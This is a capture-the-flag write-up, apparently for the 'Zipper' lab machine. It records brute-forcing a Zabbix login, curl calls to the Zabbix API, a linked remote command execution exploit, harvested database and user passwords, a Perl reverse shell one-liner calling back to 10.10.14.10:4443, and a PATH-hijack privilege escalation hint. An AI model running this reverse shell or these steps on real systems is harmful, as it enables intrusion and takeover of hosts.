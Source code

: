 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/5IY5mBx.png)
#### PORT `10050`
![](https://i.imgur.com/kSJu89O.png)
![](https://i.imgur.com/LUxvsPd.png)
![](https://i.imgur.com/uq06ihB.png)
- Signed in as Guest
	- ![](https://i.imgur.com/O4bPLrc.png)
![](https://i.imgur.com/mspanbD.png)
![](https://i.imgur.com/rsiahzI.png)
![](https://i.imgur.com/ZU5Jc3G.png)
- i got nothing. So lets brute force it.
	- This can be username, Because i tried Admin and nothing Come out. `zapper` ![](https://i.imgur.com/7m12T6j.png)
 - ![](https://i.imgur.com/8jCM3PK.png)
	 - ` zapper : zapper `
 - we got the pass and when we try it says we cant access it with GUI... so i can use the tools i got while Enumeration ![](https://i.imgur.com/UziqA0A.png)
![](https://i.imgur.com/VWaqiXq.png)
![](https://i.imgur.com/Mm8v5Ir.png)

```shell
curl -X POST -H "Content-Type: application/json" -d '{
   "jsonrpc": "2.0",
   "method": "user.login",
   "params": {
      "user": "zapper",
      "password": "zapper"
   },
   "id": 1
}' http://10.129.1.198/zabbix/api_jsonrpc.php
```
- This Gave me the token then i used the bellow
```shell
curl -X POST -H "Content-Type: application/json" -d '{
   "jsonrpc": "2.0",
   "method": "host.get",
   "params": {
      "output": ["hostid", "host"],
      "selectInterfaces": ["ip"]
   },
   "auth": "d914103eb5aeb970f1e9ec9dbdbf3a58",
   "id": 1
}' http://10.129.1.198/zabbix/api_jsonrpc.php

{"jsonrpc":"2.0","result":[{"hostid":"10105","host":"Zabbix","interfaces":[{"ip":"127.0.0.1"}]},{"hostid":"10106","host":"Zipper","interfaces":[{"ip":"172.17.0.1"}]}],"id":1}
```
![](https://i.imgur.com/dr8iV1W.png)
![](https://i.imgur.com/i9Wn5Sr.png ) https://packetstormsecurity.com/files/137454/Zabbix-3.0.3-Remote-Command-Execution.html
This Program is Throwing an error. Because of the hostid an now we have it.
it is working now ![](https://i.imgur.com/jzU9afO.png)

### Gaining Access
![](https://i.imgur.com/2TsnRv5.png)
## Internal
### Enumeration
![](https://i.imgur.com/hzUspoG.png)
![](https://i.imgur.com/y6qsaWF.png)
```shell
DBName=zabbixdb
DBUser=zabbix
DBPassword=f.YMeMd$pTbpY3-449
```
cat /run/zabbix/zabbix_server.pid
/var/log/zabbix/zabbix_server.log
![](https://i.imgur.com/NDP9Nn3.png)
65e730e044402ef2e2f386a18ec03c72

```
perl -e 'use Socket;$i="10.10.14.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' &
```
### Gaining Access
![](https://i.imgur.com/aAqCYkg.png)
![](https://i.imgur.com/T6sSbYA.png)
![](https://i.imgur.com/sRO3QHO.png)
` zapper : ZippityDoDah `
### Maintaining Access
- using the Zip password i got access![](https://i.imgur.com/uRZlR1e.png)
- ![](https://i.imgur.com/sMLLGQO.png)

- There is Script inside the `~/util`
	- ![](https://i.imgur.com/GE7MHta.png)
it is executing the systemctl in root, but it is not using absolute path
![](https://i.imgur.com/OXoLDbO.png)

![](https://i.imgur.com/b8nECXn.png)

# Random Notes